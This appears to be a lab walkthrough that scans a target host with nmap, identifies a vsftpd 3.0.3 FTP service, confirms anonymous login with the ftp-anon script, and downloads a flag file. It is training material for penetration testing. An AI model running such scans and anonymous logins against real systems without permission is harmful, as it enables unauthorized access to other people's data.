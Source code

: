 ```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

* Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

> 📌 FTP server version `vsftpd 3.0.3`

* Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details><summary>Reveal Flag: 🚩</summary></details>
